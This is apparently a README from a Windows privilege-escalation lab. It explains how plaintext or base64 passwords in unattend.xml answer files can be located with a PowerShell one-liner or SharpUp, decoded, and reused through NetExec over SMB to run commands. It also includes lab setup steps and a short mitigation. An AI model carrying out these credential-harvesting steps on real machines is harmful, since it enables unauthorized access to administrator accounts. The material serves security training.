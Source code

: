 # Answer files (Unattend files)

## Table of Contents

- [Answer files (Unattend files)](#answer-files-unattend-files)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup) 
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Unattend files, also commonly referred to as "Answer files" in the context of Windows installations, are XML-based configuration files aimed at optimizing the installation process. These files contain an extensive range of settings and configurations, empowering unattended or automated installation procedures.

An adversary could potentially exploit Unattend files by reading their contents to obtain encoded passwords and gain unauthorized access to privileged accounts or sensitive resources.

The following locations commonly contain answer files that may include local administrator credentials:

- `C:\Windows\Panther\unattend.xml`
- `C:\Windows\Panther\Unattend\unattend.xml`
- `C:\Windows\System32\Sysprep\unattend.xml`
- `C:\Windows\System32\Sysprep\sysprep.xml`
- `C:\Windows\System32\Sysprep\Panther\unattend.xml`
- `C:\Windows\sysprep.inf`
- `C:\Windows\unattend.xml`
- `C:\unattend.xml`
- `C:\sysprep.inf`

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Windows\Panther\Unattend\"
```

2) Download the file [unattend.xml](/Lab-Setup-Source-Code/unattend.xml) to the 'C:\Windows\Panther\Unattend\' directory.

Outcome:

![Answer-Files-Manual-Lab-Set-Up](/Pictures/Answer-Files-Manual-Lab-Set-Up.png)

### PowerShell Script Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Answer files (Unattend files)' scenario use the custom PowerShell script named [AnswerFiles.ps1](/Lab-Setup-Scripts/AnswerFiles.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\AnswerFiles.ps1
```

Outcome:

![Answer-Files-Script-Lab-Set-Up](/Pictures/Answer-Files-Script-Lab-Set-Up.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify if there are any answer files that may contain useful credentials, you can use the following PowerShell command:

```
Write-Host `n;foreach ($file in @('C:\Windows\Panther\unattend.xml', 'C:\Windows\Panther\Unattend\unattend.xml', 'C:\Windows\System32\Sysprep\unattend.xml', 'C:\Windows\System32\Sysprep\sysprep.xml', 'C:\Windows\System32\Sysprep\Panther\unattend.xml', 'C:\Windows\sysprep.inf', 'C:\Windows\unattend.xml', 'C:\unattend.xml', 'C:\sysprep.inf')) { if (Test-Path $file) { Write-Host "[+] $file" } }; Write-Host `n
```

Outcome:

![Answer-Files-Manual-Enumeration](/Pictures/Answer-Files-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Answer files (Unattend files)`, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit UnattendedInstallFiles
```

Outcome:

![Answer-Files-Tool-Enumeration](/Pictures/Answer-Files-Tool-Enumeration.png)

## Exploitation

1) Read the content of the found answer file:

```
type  C:\Windows\Panther\Unattend\Unattend.xml
```

Outcome:

![Answer-Files-Exploitation](/Pictures/Answer-Files-Exploitation.png)

2) To decode the base64 password field, use the following command from your Linux attacking machine:

```
echo "<base64 string>" | base64 -d
```

Outcome:

![Answer-Files-Exploitation-2](/Pictures/Answer-Files-Exploitation-2.png)

3) Obtaining the credentials can be accomplished through several methods, which you can then utilize to elevate privileges if these credentials are valid.

Some of the common services are:

- Remote Desktop Protocol (RDP)
- Windows Remote Management (WinRM) (If it is enabled)
- Server Message Block (SMB)
- Windows Management Instrumentation (WMI)
- Virtual Network Computing (VNC) (If it is enabled)

To identify a valid authentication method, you can use [NetExec](https://github.com/Pennyw0rth/NetExec).

This is an example of using the SMB service to authenticate against the workstation and execute a command:

```
nxc smb <ip> -u <username> -p '<password>' -x whoami
```

Outcome:

![Credentials-Exploitation](/Pictures/Hardcoded-Credentials-Exploitation.png)

## Mitigation

Please ensure that password fields utilize strong encryption formats, or consider removing them if they are not necessary for the use of these files.

## References

- [Answer files (unattend.xml) Microsoft](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/update-windows-settings-and-scripts-create-your-own-answer-file-sxs?view=windows-11)
- [Unattend-Files by Bordergate](https://www.bordergate.co.uk/windows-privilege-escalation/#Unattend-Files)
- [Answer Files Overview Microsoft](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/wsim/answer-files-overview)
